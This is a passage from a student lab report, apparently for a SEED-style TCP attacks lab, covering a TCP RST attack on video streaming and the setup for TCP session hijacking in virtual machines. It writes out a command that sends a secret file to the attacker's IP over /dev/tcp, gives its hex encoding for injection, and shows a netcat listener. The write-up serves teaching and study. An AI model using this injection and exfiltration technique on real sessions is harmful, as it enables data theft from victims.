 <figure>
<img style="width:75%; padding-left:12.5%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_e49f71502f89f0271ae2dacc3c2a3a8a.png"/>
<figcaption> Figure 3.2 Launch TCP RST Attack </figcaption><br>
</figure>

Clearly, our video loading stuck at some point when we have played the loaded contents.

<figure>
<img style="width:75%; padding-left:12.5%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_7ef296c04ff2ab0305daeeb7d6fbd90e.png"/>
<figcaption> Figure 3.3 Loading Stuck </figcaption><br>
</figure>

We then try to refresh the page or click other videos to continue. We will see the connection lost warning, showing that the TCP connection has been interrupted successfully.

<figure>
<img style="width:75%; padding-left:12.5%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_bcf52e29c3ca0850ae5b2669eb01e652.png"/>
<figcaption> Figure 3.4 Connection Lost </figcaption><br>
</figure>

<div style="page-break-after: always;"></div>

## Task 4: TCP Session Hijacking

### 4.1 Preparation for the attack

In this task, we used the same configuration with Task 2, in which the "*VTM1*" (`10.0.2.7`) and "*VTM2*" (`10.0.2.6`) were used as the TELNET (or SSH) server and client respectively. The "*ATK*" was used as the attacker. All these VMs were put into an single LAN. 

At first, we created a `secret` file in the directory `/home/seed` by executing the following command in "*VTM1*". 

```Shell
$ echo "this is secret" >> /home/seed/secret
```

And then, we followed the instructions in the task document to convert our command into ASCII encoding by Python below. We convert the command `cat /home/seed/secret > /dev/tcp/10.0.2.15/9090` into the encoded hex string, `0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f31302e302e322e31352f393039300d`

```Shell
$ python -c "print('\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r'.encode('hex'))"
```

In the converted command, we outputed the content of the secret file to a tcp socket binded with `10.0.2.15:9090`, which is the IP address of attacker. Therefore, we used `netcat` command below to receive the file.  

```Shell
$ nt -lv 9090
```

The image below shows outputs of all commands we executed during preparation. 
